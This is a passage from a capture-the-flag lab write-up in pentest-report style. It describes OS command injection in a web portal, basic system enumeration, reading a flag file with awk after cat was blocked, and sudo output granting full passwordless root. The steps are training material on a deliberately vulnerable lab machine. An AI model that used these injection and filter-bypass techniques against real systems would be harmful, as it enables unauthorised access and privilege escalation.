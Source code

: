 The portal contained a command execution panel vulnerable to OS command injection.

#### Initial System Enumeration
```bash
whoami
# Output: www-data

id
# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
# Output: Linux ip-10-10-123-123 4.15.0-1023-aws #23-Ubuntu...
```

#### File System Discovery
```bash
ls -la
# Output revealed: Sup3rS3cretPickl3Ingred.txt
```

#### Bypassing Command Restrictions

Standard file reading commands were blocked by the application:
```bash
cat Sup3rS3cretPickl3Ingred.txt
# Error: Command disabled
```

**Solution:** Used alternative text processing tools to bypass restrictions:
```bash
awk '{ print }' Sup3rS3cretPickl3Ingred.txt
# Output: mr. meeseek hair
```

 **First Ingredient Acquired: `mr. meeseek hair`**

**Vulnerability Classification:** CWE-78 (OS Command Injection)  
**Risk Level:** Critical  s
**OWASP Top 10:** A03:2021 – Injection

---

##  4. Privilege Escalation Analysis

### Sudo Configuration Assessment

From the compromised `www-data` user context, we performed privilege enumeration:

```bash
sudo -l
```

**Complete Output:**
```
Matching Defaults entries for www-data on ip-10-10-123-123:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User www-data may run the following commands on ip-10-10-123-123:
    (ALL) NOPASSWD: ALL
```
